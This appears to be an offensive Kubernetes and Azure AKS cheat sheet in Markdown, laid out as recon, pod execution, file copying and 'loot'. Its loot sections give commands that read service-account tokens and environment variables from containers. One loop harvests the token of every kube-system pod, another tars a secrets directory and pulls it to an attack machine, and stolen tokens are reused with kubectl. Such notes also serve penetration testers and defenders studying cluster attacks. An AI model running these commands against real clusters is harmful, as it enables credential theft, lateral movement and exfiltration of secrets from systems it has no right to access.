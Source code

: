 # AKS
```Shell
az aks list
az aks get-credentials --admin -g <ResourceGroup> -n <ClusterName> --subscription <SubID>
```

---    
# Kubectl
## Kubectl - Recon
### Auth
```Shell
kubectl auth can-i --list
kubectl --token=<token> --server https://<Server>:<Port#> auth can-i --list
```
> [!NOTE] If running a self-signed cert, add `--insecure-skip-tls-verify` 

### Cluster
```Shell
kubectl api-resources
kubectl get -h #😉
kubectl cluster-info
# Ultimate dump of data on the cluster: kubectl cluster-info dump
kubectl config view -o jsonpath='{.users[*].name}'
kubectl get nodes --all-namespaces -o wide
kubectl get namespaces
kubectl get deployments -A
kubectl get pods --all-namespaces
kubectl get services -o wide --all-namespaces
kubectl get pods -n <> 
# List containers running in pod (usually 1, but there can be more in there 😉:
kubectl get pods <Pod> -n <Namespace> -o jsonpath='{.spec.containers[*].name}'
# Get juicy data out of the pod:
kubectl describe pod <Pod> -n <Namespace>
# Search for Containers only
kubectl describe pod <Pod> -n <Namespace> | grep "Containers" -A 15
```

## Kubectl - Execution
```Shell
kubectl exec <Pod> -it -- /bin/bash
# Sometimes bash is not available
kubectl exec <Pod> -it -- /bin/sh
# Exec in pod in a given namespace
kubectl exec <Pod> -n <Namespace> -it -- /bin/bash
# Exec in a pod, in a given namespace with multiple containers
kubectl exec <Pod> -n <Namespace> -c <ContainerName> -it -- /bin/bash
```

## Kubectl - Copy files over
### Copy files to a pod
```Shell
kubectl cp /local/file <Namespace>/<Pod>:/tmp/file
# To a specific  container
kubectl cp /local/file <Namespace>/<Pod>:/tmp/file -c <ContainerName>
```
### Copy files from a pod down to your machine
```Shell
# tar the directory with this command in the target container:
tar tar cvfz /tmp/directory.tar.gz -C / secrets/allTheSecrets/

kubectl cp <Namespace>/<Pod>:tmp/directory.tar.gz /tmp/directory.tar.gz
tar xvzf /tmp/directory.tar.gz
```

---    
# Loot
## Loot via Shell @ Container
```Shell
env
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```
### Leveraging the token on local attack machine
```Shell
export TOKEN=<token>
# Then use the --token=$TOKEN with kubectl
```
## Loot by running commands on containers using kubectl remotely:
```Shell
# Getting the environment variables of each container


# Getting the token of each container
for pod in $(kubectl get po --output=jsonpath={.items..metadata.name} -n kube-system); do echo $pod && kubectl exec -it $pod -n kube-system -- cat /var/run/secrets/kubernetes.io/serviceaccount/token; echo; echo; echo "========================================================"; done
```


---     
# Talking to other APIs + Services from Pod/Container
```Shell
wget -O- https://10.0.1.2:443 --no-check-certificate
```

---    
